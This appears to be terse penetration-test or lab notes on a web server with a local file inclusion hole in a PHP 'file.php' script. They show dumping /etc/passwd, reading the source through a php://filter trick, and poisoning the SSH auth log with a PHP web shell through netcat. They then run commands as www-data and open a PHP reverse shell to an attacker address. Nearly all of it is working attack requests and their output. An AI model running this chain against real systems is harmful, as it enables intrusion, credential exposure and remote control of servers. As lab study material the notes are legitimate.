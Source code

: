-  [http://192.168.201.80/console/file.php?file=/etc/passwd](#http://192.168.201.80/console/file.php?file=/etc/passwd)
\(LFI possible\)

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www\-data:x:33:33:www\-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug\-Reporting System \(admin\):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd\-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd\-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
\_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
uuidd:x:105:109::/run/uuidd:/usr/sbin/nologin
natraj:x:1000:1000:natraj,,,:/home/natraj:/bin/bash
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
mahakal:x:1001:1001:,,,:/home/mahakal:/bin/bash

-  [http://192.168.201.80/console/file.php?file=php://filter/convert.base64-encode/resource=file.php](#http://192.168.201.80/console/file.php?file=php://filter/convert.base64-encode/resource=file.php)


PD9waHAKICAgJGZpbGUgPSAkX0dFVFsnZmlsZSddOwogICBpZihpc3NldCgkZmlsZSkpCiAgIHsKICAgICAgIGluY2x1ZGUoIiRmaWxlIik7CiAgIH0KICAgZWxzZQogICB7CiAgICAgICBpbmNsdWRlKCJpbmRleC5waHAiKTsKICAgfQogICA/Pgo=
-  \<?php
$file = $\_GET\['file'\];
if\(isset\($file\)\)
\{
include\("$file"\);
\}
else
\{
include\("index\.php"\);
\}
?\>

-  GET /console/file\.php?file=/var/log/auth\.log HTTP/1\.1\-\> can view ssh logs
Host: 192\.168\.196\.80
User\-Agent: Mozilla/5\.0 \(X11; Linux x86\_64; rv:109\.0\) Gecko/20100101 Firefox/115\.0
Accept: text/html,application/xhtml\+xml,application/xml;q=0\.9,image/avif,image/webp,\*/\*;q=0\.8
Accept\-Language: en\-US,en;q=0\.5
Accept\-Encoding: gzip, deflate, br
Connection: close
Upgrade\-Insecure\-Requests: 1

-  tried
ssh \-l '\<?php system\($\_GET\['cmd'\]\); ?\>' 192\.168\.196\.80
remote username contains invalid characters

-  nc \-nv 192\.168\.196\.80 22
\(UNKNOWN\) \[192\.168\.196\.80\] 22 \(ssh\) open
SSH\-2\.0\-OpenSSH\_7\.6p1 Ubuntu\-4ubuntu0\.3
x/\<?php system\($\_GET\['cmd'\]\); ?\>
Protocol mismatch\.

-  view logs \(found an entry\)
-  GET /console/file\.php?file=/var/log/auth\.log\&cmd=id
-  Feb 27 23:05:15 ubuntu sshd\[2064\]: Bad protocol version identification 'x/uid=33\(www\-data\) gid=33\(www\-data\) groups=33\(www\-data\)

-  GET /console/file\.php?file=/var/log/auth\.log\&cmd=php%20%2Dr%20%27%24sock%3Dfsockopen%28%22192%2E168%2E45%2E221%22%2C80%29%3Bexec%28%22%2Fbin%2Fsh%20%2Di%20%3C%263%20%3E%263%202%3E%263%22%29%3B%27 HTTP/1\.1
-  GET /console/file\.php?file=/var/log/auth\.log\&cmd=php \-r '$sock=fsockopen\("192\.168\.45\.221",80\);exec\("/bin/sh \-i \<\&3 \>\&3 2\>\&3"\);'
$ www\-data
